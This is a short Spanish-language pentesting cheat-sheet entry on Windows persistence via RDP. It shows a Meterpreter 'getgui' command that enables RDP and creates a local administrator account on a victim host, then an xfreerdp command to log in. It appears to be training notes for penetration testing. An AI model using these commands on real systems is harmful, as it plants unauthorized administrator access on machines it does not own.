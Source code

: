 # Escalación de privilegios en Windows

Tags: #Windows #PrivEsc #Meterpreter #Persistence 

## Persistencia Vía RDP

```bash 
# Crearemos un usuario desde Meterpreter siendo el usuario 'administrator'

❯ run getgui -e -u <username> -p <passwd>      # Getgui verifica si el servicio RDP esta activo, de lo contrario lo activa, el usuario que creemos sera agregado al 'local administrators group' por lo que podremos acceder al RDP

	# e = Ejecutar 
	# u = Usuario
	# p = Contraseña 


# Nos salimos de la sesion de Metasploit y hacemos lo siguiente en nuestro Kali para conectarnos por RDP
❯ xfreerdp /u:<username> /p:<passwd> /v:<IP>   # Ingresaremos de formna grafica al RDP de la maquina victima 
```